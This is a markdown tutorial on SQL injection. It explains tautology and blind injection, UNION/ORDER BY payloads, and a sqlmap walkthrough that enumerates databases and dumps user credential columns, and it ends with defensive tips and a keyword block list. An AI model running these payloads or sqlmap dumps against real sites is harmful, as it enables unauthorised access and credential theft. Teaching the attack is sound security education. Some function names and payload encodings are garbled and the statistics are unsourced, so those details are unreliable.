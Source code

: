 # SQL Injections (SQLi)

![](http://i.imgur.com/AcVJKT2.png)

* A SQL query  search can be easily manipulated and assume that a SQL query search is a reliable command. This means  that SQL searches are capable of passing, unnoticed, by access control mechanisms. 
* Using methods of diverting standard authentication and by checking the authorization credentials, you can gain access to important information stored in a database. 

## The Simplest Example

A parameter passed for a name of a user:

```
SELECT * FROM users WHERE
name="$name";
```

In this case, the attacker just needs to introduce a true logical expression like ```1=1```:

```
SELECT * FROM users WHERE 1=1;
```
So that the **WHERE** clause is always executed, which means that it will return the values that match to all users.

Nowadays it is estimated that less than 5% of the websites have this vulnerability.

These types of flaws facilitate the occurrence of other attacks, such as XSS or buffer overflows.

## Blind SQL Injection

It's estimated that over 20% of the websites have this flow.

In traditional SQLi it is possible to reveal the information by the attacker writing a payload. In the blind SQLi, the attacker needs to ask the server if something is TRUE or FALSE. For example, you can ask for a user. If the user exists, it will load the website, so it's true.

Every time you see an URL, the **question mark** followed by some type of letter or word means that a value is being sent from a page to another.

In the example
```
http://www.website.com/info.php?id=10
```
the page *info.php* is receiving the data and will have some code like:
```
$id=$_post['id'];
```
and an associated SQL query:
```
QueryHere = "select * from information where code='$id'"
```
### Common ways of Exploitation

#### Checking for vulnerability
We can start to verifying whether the target is vulnerable by attaching a simple quote symbol ```'``` in the end of the URL:

```
http://www.website.com/info.php?id=10'
```

If the website returns the following error:

	You have an error in your SQL syntax...

It means that this website is vulnerable to SQL.

#### Find the structure of the database
To find the number of columns and tables in a database we can use [Python's SQLmap](http://sqlmap.org/).  

This application streamlines the SQL injection process by automating the detection and exploitation of SQL injection flaws of a database. There are several automated mechanisms to find the database name, table names, and number of columns.

* ORDER BY: it tries to order all columns form x to infinity. The iteration stops when the response shows that the input column x does not exist, reveling the value of x.

* UNION: it gathers several data located in different table columns. The automated process tries to gather all information contained in columns/table x,y,z obtained by ORDER BY. The payload is similar to:

```
?id=5'%22union%22all%22select%221,2,3
```

* Normally the databases are defined with names such as: user, admin, member, password, passwd, pwd, user_name. The injector uses a trial and error technique to try to identify the name:

```
?id=5'%22union%22all%22select%221,2,3%22from%22admin
```
So, for example, to find the database name, we run the *sqlmap* script with target *-u* and enumeration options *--dbs* (enumerate DBMS databases):

```
$ ./sqlmap.py -u <WEBSITE> --dbs
(...)
[12:59:20] [INFO] testing if URI parameter '#1*' is dynamic
[12:59:22] [INFO] confirming that URI parameter '#1*' is dynamic
[12:59:23] [WARNING] URI parameter '#1*' does not appear dynamic
[12:59:25] [WARNING] heuristic (basic) test shows that URI parameter '#1*' might not be injectable
[12:59:25] [INFO] testing for SQL injection on URI parameter '#1*'
[12:59:25] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[12:59:27] [WARNING] reflective value(s) found and filtering out
[12:59:51] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
[13:00:05] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[13:00:16] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause'
(...)
```

#### Gaining access to the Database

* From this we can verify what databases we have available, for example. From this we can find out how many tables exist, and their respective names. The sqlmap command is:

```
./sqlmap -u <WEBSITE> --tables <DATABASE-NAME>
``` 

* The main objective is to find  usernames and passwords in order to gain access/login to the site, for example in a table named *users*. The sqlmap command is

```
./sqlmap -u <WEBSITE> --columns -D <DATABASE-NAME> -T <TABLE-NAME>
``` 

This will return information about the columns in the given table.

* Now we can dump all the data of all columns using the flag ```-C``` for column names:

```
./sqlmap -u <WEBSITE> --columns -D <DATABASE-NAME> -T <TABLE-NAME> -C 'id,name,password,login,email' --dump
```

If the password are clear text (not hashed in md5, etc), we have access to the website.

## Some Protection Tips

* Never connect to a database as a super user or as a root.
* Sanitize any user input. PHP has several functions that validate functions such as:
	- is_numeric()
	- ctype_digit()
	- settype()
	- addslahes()
	- str_replace()
* Add quotes ```"``` to all non-numeric input values that will be passed to the database by using escape chars functions:
	- mysql_real_escape_string()
	- sqlit_escape_string()

```php
$name = 'John';
$name = mysql_real_escape_string($name);
$SQL = "SELECT * FROM users WHERE username='$name'";
```

* Always perform a parse of data that is received from the user (POST and FORM methods). 
	- The chars to be checked:```", ', whitespace, ;, =, <, >, !, --, #, //```.
	- The reserved words: SELECT, INSERT, UPDATE, DELETE, JOIN, WHERE, LEFT, INNER, NOT, IN, LIKE, TRUNCATE, DROP, CREATE, ALTER, DELIMITER.

* Do not display explicit error messages that show the request or a part of the SQL request.

* Erase user accounts that are not used (and default accounts).

* Other tools: blacklists, AMNESIA, Java Static Tainting, Codeigniter.

